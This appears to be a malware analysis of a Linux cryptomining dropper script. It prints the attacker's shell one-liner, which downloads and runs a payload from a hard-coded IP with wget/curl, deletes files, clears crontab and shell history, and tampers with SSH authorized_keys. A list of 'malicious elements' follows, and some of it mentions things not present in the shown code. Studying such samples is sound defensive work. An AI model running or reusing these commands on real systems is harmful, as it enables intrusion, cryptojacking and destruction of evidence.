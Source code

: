 ```
./network "rm -rf /var/tmp/Documents ; mkdir /var/tmp/Documents 2>&1 ; crontab -r ; chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1 ; cd /var/tmp ; chattr -iae /var/tmp/Documents/.diicot ; pkill Opera ; pkill cnrig ; pkill java ; killall java ; pkill xmrig ; killall cnrig ; killall xmrig ;cd /var/tmp/; mv /var/tmp/diicot /var/tmp/Documents/.diicot ; mv /var/tmp/kuak /var/tmp/Documents/kuak ; cd /var/tmp/Documents ; chmod +x .* ; /var/tmp/Documents/.diicot >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_history ; rm -rf /tmp/cache ; cd /tmp/ ; wget -q 85.31.47.99/.NzJjOTYwxx5/.balu || curl -O -s -L 85.31.47.99/.NzJjOTYwxx5/.balu ; mv .balu cache ; chmod +x cache ; ./cache >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_history"

sleep 25

function Miner {
    rm -rf /dev/shm/retea /dev/shm/.magic
    rm -rf /dev/shm/.x ~/retea /tmp/kuak /tmp/diicot /tmp/.diicot
    rm -rf ~/.bash_history
    history -c
}

Miner
```

***Malicious Elements:***

**Remote Payload Download & Execution:**
--The script uses wget and curl to download and execute payloads from suspicious domains (e.g., dinpasiune.com and 85.31.47.99), potentially delivering a cryptominer or other malware.

**System Cleanup & Concealment:**
--Clears evidence by deleting logs (.bash_history, history -c) and critical files (e.g., /var/tmp/.update-logs).
--Deletes or disables competing malware or services by killing processes (pkill xmrig, pkill java, etc.).

**Password List Generation:**
--Generates weak default passwords for users by extracting system usernames (cat /etc/passwd) and creating combinations of usernames and weak password strings like 123456, password, Passw0rd.

**Persistence Mechanisms:**
--The script recreates critical files (/etc/sysctl.conf), updates file limits, and ensures system stability for continued operation of the malware.
--It also re-establishes itself through crontab manipulation and uses /dev/shm/.x for storing malicious files, which is commonly used for persistence.

**Crontab & SSH Key Manipulation:**
--Crontab entries are removed, potentially removing legitimate or other scheduled tasks, while setting up new ones to run the miner regularly.
--SSH keys are manipulated (chattr -iae ~/.ssh/authorized_keys) to avoid detection or disable administrative access.

**Connection Attempts & Data Exfiltration:**
--The ./network component and references to .diicot indicate potential exfiltration of sensitive data or continued control through a network communication mechanism.

**Miner Function:**
--Cleans up the environment by removing evidence and attempting to continue cryptomining operations using files like /tmp/kuak or /var/tmp/Documents/.diicot.

